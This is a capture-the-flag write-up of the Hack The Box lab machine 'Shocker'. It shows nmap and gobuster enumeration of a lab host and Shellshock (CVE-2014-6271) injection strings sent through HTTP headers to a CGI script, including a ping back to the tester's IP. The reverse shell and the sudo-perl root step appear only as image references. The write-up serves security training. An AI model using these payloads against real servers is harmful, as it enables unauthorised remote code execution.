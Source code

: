 ```yaml
---
title: "[HTB] Machine: Shocker"
description: "[HTB] Machine: Shocker"
date: 2023-06-07
menu:
  sidebar:
    name: "[HTB] Machine: Shocker"
    identifier: htb-machine-shocker
    parent: htb-machines-linux
    weight: 10
hero: images/shocker.png
tags: ["HTB", "cgi", "shellshock", "bashbug", "cve-2014-6271", "gtfobin"]
---
```


# Shocker
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 20:39 BST
Nmap scan report for 10.10.10.56 (10.10.10.56)
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.10 seconds
```

![](./images/1.png)

- `gobuster`
  - the option `-f` is important, since it will `Append / to each request`
  - I wasn't able to find anything without that option
```
└─$ gobuster dir -u http://10.10.10.56/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 50 -f     
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/06/10 05:47:40 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
/server-status/       (Status: 403) [Size: 300]
```
- Let's check the content of the `cgi-bin`
```
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -x sh,cgi,pl 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,cgi,pl
[+] Timeout:                 10s
===============================================================
2023/06/10 06:09:48 Starting gobuster in directory enumeration mode
===============================================================
/.html.cgi            (Status: 403) [Size: 303]
/.html.pl             (Status: 403) [Size: 302]
/.html                (Status: 403) [Size: 299]
/.html.sh             (Status: 403) [Size: 302]
/user.sh              (Status: 200) [Size: 118]
/.htm                 (Status: 403) [Size: 298]
/.htm.cgi             (Status: 403) [Size: 302]
/.htm.pl              (Status: 403) [Size: 301]
/.htm.sh              (Status: 403) [Size: 301]
/.                    (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 303]
...
```
- We found `user.sh`

![](./images/2.png)

![](./images/3.png)

## Foothold/User
- The name of the suggest the `Shellshock`, [CVE-2014-6271](https://blog.qualys.com/vulnerabilities-threat-research/2014/09/24/bash-remote-code-execution-vulnerability-cve-2014-6271)
  - https://en.wikipedia.org/wiki/Shellshock_(software_bug)
  - `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
  - `User-Agent` header is usually the target
    - We can also test other headers: `Cookie`, `Referer`
  - We use `echo;` to receive response back from server, but RCE still exists without it
    - You can try `() { :;}; /bin/ping -c1 10.10.16.3`
      - You will not receive `http-response`, but will receive ping
  - Notice that we have to use full `path` of the binary for execution

![](./images/4.png)

![](./images/5.png)

- Let's get a `reverse shell`

![](./images/6.png)

## Root
- Enumeration for privesc
  - `sudo -l`

![](./images/7.png)

- [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

![](./images/8.png)

- Rooted

![](./images/9.png)
